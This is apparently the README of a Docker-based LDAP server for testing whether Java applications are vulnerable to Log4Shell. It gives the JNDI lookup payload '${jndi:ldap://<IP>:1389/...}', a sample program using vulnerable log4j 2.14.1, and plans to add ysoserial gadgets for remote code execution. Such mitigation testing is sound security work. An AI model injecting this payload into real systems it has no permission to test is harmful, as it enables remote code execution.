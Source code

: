 # log4shell-ldap
A tool for checking [log4shell](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) vulnerability mitigations.

## Usage:
- Build a container image: `docker build . -t log4shell`
- Run it: `docker run -p 3000:3000 -p 1389:1389 -e publicIp=<IP> log4shell`

Replace `<IP>` with an actual IP address of the host running the container. For local tests `localhost` should work just fine. 

Once the tool is running use `curl` to test it's reachable: `curl http://localhost:3000` 

This should print something like this:
```
$ curl http://localhost:3000
To test an application try to make log4j print ${jndi:ldap://localhost:1389/probably_not_vulnerable}
```
This output indicates the tool is running and curl was able to connect to it. 
If `curl` fails then check the IP address passed to `docker run`.

Assuming the `curl` test works then you can test an actual Java application. 
This is the simplest Java application:
```java
package mypackage;

import org.apache.logging.log4j.LogManager;

public class Main {
    public static void main(String[] args) throws Exception {
        LogManager.getLogger(Main.class).fatal("${jndi:ldap://<IP>:1389/probably_not_vulnerable}");
    }
}
```
Again, replace `<IP>` with the IP address you used to start a container image. 
To compile it with Maven you will have to add following dependency into`pom.xml`:
```xml
<dependency>
  <groupId>org.apache.logging.log4j</groupId>
  <artifactId>log4j-core</artifactId>
  <version>2.14.1</version>
</dependency>
```
The application has 3 possible outcomes:
- Prints _totally pwned!_. This is happening when a vulnerable log4j2 version is executed on old Java.
   This is the worst case as it allows a very simple arbitrary remote code execution.
- Prints _Reference Class Name: probably vulnerable_. This means a vulnerable log4j2 version is executed on recent Java.
   This makes it a bit harder to abuse the vulnerability, but RCE may still be possible and there is also a risk of DoS.
- Prints _${jndi:ldap://<IP>:1389/probably_not_vulnerable}_
   This means the application is either not vulnerable or the test is misconfigured :)

## Development Setup
To compile the tool outside a container you have to build Java payload first. You can do this by running
a script prepareLocalEnv.sh. This requires JDK8 to be available. The script was tested on Linux only, I appreciate reports
how it works on other platforms.


## TODO
- Local build. The build relies on JAR being available at the compilation time. This is trivial to achieve
with containerized builds, but harder when building outside containers.
- Refactoring. The code is simply hideous. 
- Public container into DockerHub. Is this a good idea?
- Include Gadgets from the [yoserial project](https://github.com/frohoff/ysoserial) to try to RCE when running 
on recent Java updates. 

## Disclaimer
This is an educational tool created purely for purposes of checking various log4shell mitigations and is not intended
to be used to attack systems except where explicitly authorized. 
Author is not responsible or liable for misuse of the software. Use responsibly.

## Credits
- [yoserial project](https://github.com/frohoff/ysoserial) for the disclaimer:)
- Examples in the [goldap project](https://github.com/vjeantet/ldapserver/blob/9f1711e226a4d7984fd4c9d341a13537a38546a7/examples/complex/main.go). I used the Complex example as a template.
